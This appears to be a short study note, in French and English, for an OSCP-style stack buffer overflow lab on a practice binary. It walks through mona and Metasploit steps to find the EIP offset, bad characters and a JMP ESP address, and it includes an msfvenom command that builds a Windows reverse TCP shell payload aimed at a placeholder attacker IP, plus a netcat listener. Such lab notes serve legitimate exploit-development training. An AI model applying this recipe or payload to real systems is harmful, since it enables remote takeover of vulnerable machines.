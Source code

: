 # MONA

## add to path in immunitydbg

```sh
!mona config -set workingfolder c:\mona\%p
```

## generate pattern and find EIP addr

(Fuzzing crashed at 2000 bytes)
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2400
!mona findmsp -distance 2400
```
EIP contains normal pattern : 0x6f43396e (offset 1978)

## test des bads char:

(ESP à l'adresse  0199FA30)
```sh
!mona bytearray -b "\x00"
!mona compare -f C:\mona\oscp\bytearray.bin -a 0199FA30
```

on rajoute 00 au bad chars

00 07 08 2e 2f a0 a1 
"\x00\x07\x08\x2e\x2f\xa0\xa1"

mais attention les bytes qui se suivent ne sont probablement pas des badchars, il nous reste donc:

\x00\x07\x2e\xa0


## trouver un jmp esp

```sh
!mona jmp -r esp -cpb "\x00\x07\x08\x2e\x2f\xa0\xa1"
```

réponse:
625011af

dans exploit.py
retn = "\xaf\x11\x50\x62"


## autre exemple

## BOF + JMP ESP quickly

1. run imunity as admin

2. open oscp.exe

3. add mona to path: `!mona config -set workingfolder c:\mona\%p`

4. run fuzzer.py

5. generate pattern: `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <fuzzer length + 400>` and place it in payload variable in exploit.py

6. crash the app. find the EIP addr/offset: `!mona findmsp -distance <fuzzer length + 400>` then set offset variable in exploit.py ("EIP contains normal pattern : ... (offset XXXX)")

7. generate badchars: `!mona bytearray -b "\x00"`

8. find bachars :
    run badchar.py and place it in payload variable
    run exploit.py crash the vulnerable app
    `!mona bytearray -b "\x00"` 
    `!mona compare -f C:\mona\oscp\bytearray.bin -a < ESP address>`
    ne prendre en compte que les premiers chars d'une suite

9. find jmp esp: `!mona jmp -r esp -cpb "\x00\x<badchars>"` and set rtn variable in exploit.py

10. generate payload for exploit.py `msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00\x<badchars>" -f c`

11. set pading in exploit.py: `padding = "\x90" * 16`

12. set nc listenet and run exploit.py




